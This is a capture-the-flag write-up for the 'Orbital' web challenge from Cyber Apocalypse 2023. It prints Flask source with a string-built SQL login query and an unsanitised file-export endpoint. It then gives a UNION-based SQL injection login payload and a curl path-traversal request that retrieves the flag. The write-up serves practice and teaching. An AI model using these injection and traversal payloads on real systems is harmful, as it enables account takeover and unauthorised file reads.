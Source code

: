 # Cyber Apocalypse 2023

## Orbital

> In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?
>
>  Author: N/A
>
> [`web_orbital.zip`](web_orbital.zip)

Tags: _web_

## Solution
After browsing through the source code we can find the login code

```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```

The comment suggest sql injection is not possible here since password is tested explicitely later on. But this part is still weak, by logging in as

![login](image001.png)

>username: " AND 0=1 UNION SELECT username, md5("test123") AS password FROM users WHERE >username = "admin" #-- -\
passwort: test123

We can hard set the password to whatever we want, here `test123`, and we are in.

On the site itself is not much to find, but browsing the code a bit more there is a interesting endpoint:

```python
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```

We can use this, with our current session id, to extract the flag. We only need to know where the flag is stored. In the Dockerfile this information can be found.
```Dockerfile
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```

And we have the flag:
```bash
$ curl -X POST -H "Content-Type:application/json" -d '{"name":"../signal_sleuth_firmware"}' --cookie "session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVOVGszTVRrMGZRLkRaLXhLS09YeENtZ1MtakhWajZmWkhYdGQyMDVpZmFNRVR3eEo5NVNfTDQifQ.ZBxKKg.SoU5o3fjH-Yj-A1EesEi6RQwDFA" http://167.71.143.44:32392/api/export
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```

Flag `HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}`
